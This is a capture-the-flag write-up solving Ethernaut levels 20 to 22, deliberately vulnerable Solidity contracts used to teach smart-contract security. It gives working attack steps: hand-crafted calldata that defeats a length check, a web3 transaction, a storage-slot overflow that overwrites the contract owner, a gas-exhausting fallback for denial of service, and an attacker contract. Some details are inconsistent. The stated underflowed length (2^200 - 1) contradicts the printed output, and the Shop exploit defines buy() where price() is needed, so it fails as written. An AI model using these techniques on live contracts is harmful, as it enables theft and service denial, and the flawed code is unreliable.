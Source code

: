 Title: Ethernaut wargame Lvl. 20-22
Date: 2018-12-27 10:01
Modified: 2018-12-27 10:01
Category: ctf
Tags: ctf, ethereum, solidity
Slug: Ethernaut_wargame2022
Authors: F3real
Summary: How to solve Ethernaut wargame lvl. 20-22

Ethernaut is great wargame teaching wide variety of Solidity security concepts. 
Currently it offers 22 levels with varied difficulty. It can be found [here](https://ethernaut.zeppelin.solutions/).

[TOC]

## Lvl 20 Alien Codex

~~~solidity
pragma solidity ^0.4.24;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact(bytes32[] _firstContactMessage) public {
    assert(_firstContactMessage.length > 2**200);
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
~~~

Looking at the code we see that first problem we have to overcome is modifier `contacted`. Length of content we need to send has to be greater then 2^200, which is impossible. We can bypass this due to fact that EVM doesn't validate an array's ABI-encoded length vs its actual payload. We will manually encode payload to send in similar way we have done in Blockchain CTF challenges.

~~~text
1d3d4c0b
0000000000000000000000000000000000000000000000000000000000000020
1000000000000000000000000000000000000000000000000000000000000000
~~~

First line is function identifier. It consists of first 32bits of `sha3("make_contact(bytes32[])")`.
Second line shows us offset of array content, in our case it points to second line. Array content starts with length of array, after which actual array elements come (in our case we will just leave it empty).

A lot of values for array length greater then 2^200 cause out of gas exception on CALLDATACOPY instruction. It is probably related to internal way EVM handles it, and is actually really interesting and probably worth looking into more.

~~~javascript
web3.eth.defaultAccount = web3.eth.accounts[0];
var tokenContractAddress = "0x7bd16279c000a2a2bad3080bbf04e111c12c5e9e"
var tx = {
    to : tokenContractAddress,
    data : "0x1d3d4c0b00000000000000000000000000000000000000000000000000000000000000201000000000000000000000000000000000000000000000000000000000000000"
}
web3.eth.sendTransaction(tx, (err,res)=>{console.log(err,res);});
~~~

Anyway after we bypassed modifier second thing is to call `retract` function. This will cause underflow on `codex` array and change its length to 2^200 - 1.
This will enable us to access and modify all of contract storage. As a reminder, storage of contract consists of `2**256` 32 byte slots.

Variables are ordered in the way they are declared. Address owner (inherited from Ownable) is occupying first slot together with `boolean` variable `contacted` due to both of them being smaller then 32 bytes (`addresses` are 20 bytes and `boolean` is one byte). Second slot contains length of `codex` array.

We can access both of them trough public getter or trough `getStorageAt` method of web3:
~~~javascript
web3.eth.getStorageAt(
  tokenContractAddress, 
  slot,
  function (err, result) {
    console.log((web3.toHex(result))); 
  }
);
~~~

Output:

~~~text
0: 0x00000000000000000000000173048cec9010e92c298b016966bde1cc47299df5
1: 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
~~~

Formula for locating slot corresponding to array index is:
```keccak256(slot) + index ```

This means we have to calculate index in the way it overflows max value and points to first slot:

```index = 2**256 - keccak256(bytes32(1))```

After we get our index we just have to call `revise` function and overwrite current owner address with ours to win.
Address has to be padded to the left with zeroes.

## Lvl 21 Denial

~~~solidity
pragma solidity ^0.4.24;

contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = 0xA9E;
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance/100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call.value(amountToSend)();
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    function() payable {}

    // convenience function
    function contractBalance() view returns (uint) {
        return address(this).balance;
    }
}
~~~

To win this level we have to prevent owner from withdrawing funds. Before funds get transferred to owner there is `partner.call.value(amountToSend)();`, which we can exploit. Since no gas amount has been specified, all gas will be sent to fallback function of partner address.

We can write contract with fallback function that will trigger assert and thus spend all gas, making it so that owner can't withdraw.

~~~solidity
    function() public payable{
        assert(false);
    }
~~~

## Lvl 22 Shop

~~~solidity
pragma solidity 0.4.24;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3000)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3000)();
    }
  }
}
~~~

In this level we need to exploit interface Buyer. Our function `price` has to return different values, in two different calls. 

Only problem is that we can't use storage, since just modifying value costs 5000 gas and we have only 3000 available. Good thing is that `isSold` variable from Shop contract is public and we can access it with the gas we have.

~~~solidity
pragma solidity 0.4.24;

import './Shop.sol';

contract Pwn is Buyer {
  uint public price = 100;
  Shop shop = Shop(0x3a13E6F0EF2498CAbD0b49c7F5B1FA1AeD465125);
  
  function buy() external view returns (uint) {
      return shop.isSold()==true?0:100;  
  }
  
  function pwn() external{
      shop.buy();
  }
}
~~~